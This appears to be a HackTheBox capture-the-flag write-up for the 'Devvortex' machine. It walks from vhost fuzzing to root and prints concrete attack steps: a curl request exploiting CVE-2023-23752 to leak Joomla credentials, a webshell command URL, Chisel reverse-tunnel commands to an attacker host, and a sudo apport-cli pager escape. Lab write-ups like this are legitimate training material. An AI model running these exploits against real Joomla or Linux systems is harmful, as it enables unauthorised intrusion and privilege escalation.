

# HackTheBox - Devvortex

I started the usual portscan.

We see one web server open and one SSH server.

I did some basic enumerations and while vHost fuzzing with FFUF I found a subdomain.

`ffuf -H "Host: FUZZ.devvortex.htb"  -c -w ./subdomains-top1million-110000.txt -u http://devvortex.htb -fc 302`

So let's move on to the subdomain and see.

A quick click on  __Wappalyzer__ addon shows me that we are dealing with the CMS __Joomla__.

Now, however, I wanted to know the exact version.

The exact version can be found under:  `/administrator/manifests/files/joomla.xml`.

Now I looked for vulnerabilities and quickly discovered that this Joomla version is affected by an __Unauthenticated information disclosure__.

More detailed information can be found here: [CVE-2023-23752](https://vulncheck.com/blog/joomla-for-rce).

With the following command I got the access data for Joomla:

`curl -v "http://dev.devvortex.htb/api/index.php/v1/config/application?public=true"`

I logged in.

I know how to set up a shell with wordpress, but with Joomla this was something new for me.

I found this [Webshell Plugin](https://github.com/p0dalirius/Joomla-webshell-plugin) very practical.

Under `System` -> `Extensions` I installed the plugin by uploading the .zip file and under the path `/modules/mod_webshell/mod_webshell.php?action=exec&cmd=id` I could now send commands.

Well, a reverse shell is more comfortable and I established a reverse shell from the webshell from which I could now better enumerate the system.

## www-data -> logan

First of all, I wanted to take a closer look at the MYSQL database and I tunneled the port to me using __Chisel__.

__Chisel Usage:__

- On Attacker Machine: `./chisel server -p 8000 --reverse`
- On Victim Machine: `chisel client <ATTACKER_IP>:8000 R:3306:127.0.0.1:3306`

I logged in with the access data from __lewis__ __(password reuse)__ and got the __bcrypt__ hashes from Joomla.

The hash of the user __logan__, who also has an account on the linux system, was cracked and I logged in via SSH as that user and got the first flag.

## logan -> root

The privilege escalation to root was pretty straightforward.

A look at the `sudo -l` output shows us that we can run `/usr/bin/apport-cli` as any user.

Now I simply tried out the menus to see if I could get into a `less` scrolldown or similar with some option.

With `sudo -u root /usr/bin/apport-cli -f` I got into this menu:

At the option `4: Sound/audio related problems` I came to a point where I could enter `:!sh` and I was root.

